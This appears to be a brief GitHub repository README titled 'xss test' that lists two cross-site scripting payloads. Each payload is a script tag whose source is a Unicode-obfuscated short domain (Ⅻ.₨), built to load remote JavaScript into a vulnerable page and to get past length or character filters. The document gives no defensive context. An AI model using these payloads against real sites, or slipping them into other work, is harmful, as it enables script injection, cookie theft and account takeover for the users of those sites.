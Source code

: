 # xii.github.io
xss test

# payloads

```
<script src=//Ⅻ.₨>
```

```
<script src=//Ⅻ.₨></script>
```
